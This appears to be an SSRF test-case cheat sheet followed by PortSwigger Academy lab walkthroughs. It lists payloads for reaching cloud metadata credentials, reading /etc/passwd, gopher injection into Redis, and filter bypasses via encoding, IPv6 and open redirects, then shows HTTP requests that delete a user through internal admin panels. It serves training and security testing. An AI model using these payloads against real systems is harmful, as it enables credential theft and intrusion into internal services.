# ✅ **Server-Side Request Forgery (SSRF) – Complete Test Case (with Bypass Cases)**

---

# **1. List of Vulnerabilities (SSRF Attack Surface)**

* **1.1 Internal Network Port Scanning** – attacker probes internal hosts.
* **1.2 Accessing Cloud Metadata Services** – AWS, GCP, Azure.
* **1.3 File Retrieval via Protocol Abuse** – `file://`, `gopher://`, `dict://`, `ftp://`.
* **1.4 Blind SSRF** – no response body but side-effects (DNS/HTTP logs).
* **1.5 URL Bypass via Encoding** – double encoding, IP obfuscation.
* **1.6 Open Redirect SSRF** – redirects to internal targets.
* **1.7 Header Injection via SSRF** – using gopher/dict protocols.
* **1.8 DNS Rebinding** – external domain resolves to internal address.
* **1.9 Host Validation Bypass** – malformed URLs to confuse parsers.
* **1.10 SSRF → RCE or Database Exposure** – access admin panels, APIs, Redis, Docker.

---

# **2. Sample Payloads (Core Attack Payloads)**

(Simple structure for learning — safe to read, no harmful effects)

### **2.1 Internal Network Scan**

```
http://127.0.0.1:22
http://localhost:3306
http://192.168.1.10:8080
```

### **2.2 Cloud Metadata Access**

```
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/
```

### **2.3 Protocol Abuse**

```
file:///etc/passwd
gopher://127.0.0.1:11211/
ftp://127.0.0.1/etc/passwd
```

### **2.4 Open Redirect SSRF**

```
http://example.com/redirect?url=http://169.254.169.254/
```

### **2.5 URL Parser Bypass**

```
http://127.0.0.1@evil.com
http://127.0.0.1:80#evil.com
http://2130706433     (integer form of 127.0.0.1)
```

---

# **3. Bypass Payloads (Advanced Techniques)**

(Used when the app blocks "localhost", "127.0.0.1", etc.)

### **3.1 Encoded Localhost**

```
http://127.0.0.1
http://127.1
http://0
```

### **3.2 Double/Triple Encoding**

```
http://%31%32%37.0.0.1
http://%32%31%33%30%37%30%36%34%33%33   (integer representation)
```

### **3.3 DNS Rebinding Payload**

```
http://yourdomain.com       (A record → external, CNAME → internal)
```

### **3.4 “@” Authentication Bypass Trick**

```
http://evil.com@127.0.0.1/
```

### **3.5 IPv6-Only Bypass**

```
http://[::1]/
http://[0000:0000:0000:0000:0000:ffff:127.0.0.1]/
```

### **3.6 Open Redirect Chain**

```
http://attacker.com/redirect?to=http://169.254.169.254/
```

### **3.7 Gopher Protocol for Header Injection**

```
gopher://127.0.0.1:11211/_stats
gopher://127.0.0.1:6379/_INFO
```

---

# **4. Updated With Realistic Testing Payloads (Advanced Learning)**

### **4.1 AWS EC2 Metadata Dump**

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

### **4.2 Redis RCE Trigger (Safe string shown)**

```
gopher://127.0.0.1:6379/_SET test "Hello"
```

### **4.3 Docker API Exposure**

```
http://localhost:2375/containers/json
```

### **4.4 Kubernetes API Exposure**

```
http://127.0.0.1:10250/pods
```

### **4.5 Jenkins Script Console**

```
http://localhost:8080/script
```

### **4.6 VM Metadata via Redirect**

```
http://open-redirect.com/?url=http://169.254.169.254/latest/
```

### **4.7 Blind SSRF DNS Callback**

```
http://abc.your-burp-collab.com
```

---

# **5. Validation / Test Steps**

**Step 1:** Identify any parameter accepting a URL
→ `url=`, `image=`, `callback=`, `redirect=`, `feed=`, etc.

**Step 2:** Test internal access
→ `http://localhost`, `http://127.0.0.1`, etc.

**Step 3:** Try metadata service
→ `169.254.169.254`

**Step 4:** Try protocol shifts
→ `file://`, `gopher://`, `ftp://`

**Step 5:** Try bypass techniques
→ encodings, redirects, IPv6, DNS rebinding.

---

# **6. Expected Results / Impact**

* Internal systems become reachable.
* Metadata services leak secrets.
* Admin portals exposed.
* Redis/Memcached/DB exploitation.
* Possible **RCE** in chained scenarios.

---

01 Basic SSRF against the local server
======================================

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at
http://localhost/admin and delete the user carlos.

References:

-   https://portswigger.net/web-security/ssrf



There is a button to check the stock:


It generates this POST request:


The stockApi parameter contains the url
“http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1”,
and we can tryo to change it to other url:


For example we can check the content of the /admin page:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=http://localhost/admin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


From the source code we find using a GET request we can delete a user:


So we can delete “carlos” with this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=http://localhost/admin/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



02 Basic SSRF against another back-end system
=============================================

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal
192.168.0.X range for an admin interface on port 8080, then use it to delete the
user carlos.

Generated link:
https://0aac00f403f0604981937fdd00f60012.web-security-academy.net/

POST request to check stock:


Intruder:


.169 contains admin panel:


It seems it is possible to delete users with a GET request from the response:


We will add this to the request:


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...
stockApi=http%3A%2F%2F192.168.0.169%3A8080%2Fadmin/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

03 SSRF with blacklist-based input filter
=========================================

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at
http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to
bypass.

References:

-   https://portswigger.net/web-security/ssrf


There is a button to check the stock:


It generates this POST request:


The stockApi parameter contains the url
“http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1”,
and we can tryo to change it to other url:


It seems we can not use “http://127.0.0.1” or “http://localhost/”:



Using http://017700000001/ the error changes:



Using http://127.1 we can access the local server, for example we can access
/login. But we still can not access /admin, it gets detected.


Using case variation, using ADMIN in uppercase, it is possible to access /admin:



From the source code we find it is possible to delete the user with a GET
request with a payload like this:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=http://127.1/ADMIN/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


04 SSRF with filter bypass via open redirection vulnerability
=============================================================

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at
http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so
you will need to find an open redirect affecting the application first.

Reference: https://portswigger.net/web-security/ssrf


Generated link:
https://0abd004b03b8fa4e80328aba002a00f0.web-security-academy.net



POST request with data “stockApi=/product/stock/check?productId=1&storeId=1”


The endpoint is reachable through a GET request in
https://0abd004b03b8fa4e80328aba002a00f0.web-security-academy.net/product/stock/check?productId=1&storeId=1
as well:


There is a “Next product” button:



It uses the “path” parameter to set the id of the next product to display and
redirecto to that page:



We test the folowing payload and find the open redirection:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Now we will create a new POST request using this payload as the stockApi
parameter:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Reading the HTML code we see the user carlos can be deleted with a GET request
like http://192.168.0.12:8080/admin/delete?username=carlos



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


05 Blind SSRF with out-of-band detection
========================================

This site uses analytics software which fetches the URL specified in the Referer
header when a product page is loaded.

To solve the lab, use this functionality to cause an HTTP request to the public
Burp Collaborator server.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/ssrf


Intercept the request when clicking a product and change the “Referer” header:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /product?productId=1 HTTP/2
...
Referer: http://snjtorvmsesj9itkltcgrqtsfjla92xr.oastify.com
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


There are DNS and HTTP request to the Collaborator domain:



# 3 - SSRF via flawed request parsing

This lab is vulnerable to routing-based SSRF due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address.

To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos.

-------------


Reference: https://portswigger.net/web-security/host-header/exploiting#routing-based-ssrf


-------------

Generated link: https://0a5100f104ffdc65c3832510004000cf.web-security-academy.net/

If you supply the domain of your Collaborator server in the Host header, and subsequently receive a DNS lookup from the target server or another in-path system, this indicates that you may be able to route requests to arbitrary domains.

Error in Host header for "/product?productId=1":


Gateway error when adding a second Host header:


Send to Intruder:


Using 192.168.0.113 we get a 404 error:


Repeat the request with the product ID, add the second Host header with that IP address and change path to "/update":


```
GET /admin/ HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...
```

We get this page:


Deleting the user is not possible, so I repeated the process and captured the response:


We will send a new request to delete the user knowing the endpoint is /admin/delete and the parameter is probably username:


```
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos
```

We get the error:


Let's repeat the process and add the csrf value in the response to the previous GET request ("IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv") - or repeat the GET request to /admin, what you prefer:

```
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos&csrf=IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv
```


We get a 302 redirection:


It seems it worked!


# 9 - SSRF with filter bypass via open redirection vulnerability

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.


---------------------------------------------

Reference: https://portswigger.net/web-security/ssrf


---------------------------------------------

Generated link: https://0abd004b03b8fa4e80328aba002a00f0.web-security-academy.net


POST request with data “stockApi=/product/stock/check?productId=1&storeId=1”


The endpoint is reachable through a GET request in https://0abd004b03b8fa4e80328aba002a00f0.web-security-academy.net/product/stock/check?productId=1&storeId=1 as well:


There is a “Next product” button:


It uses the “path” parameter to set the id of the next product to display and redirecto to that page:


We test the folowing payload and find the open redirection:

```
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```


Now we will create a new POST request using this payload as the stockApi parameter:

```
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin
```


Reading the HTML code we see the user carlos can be deleted with a GET request like http://192.168.0.12:8080/admin/delete?username=carlos


```
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```


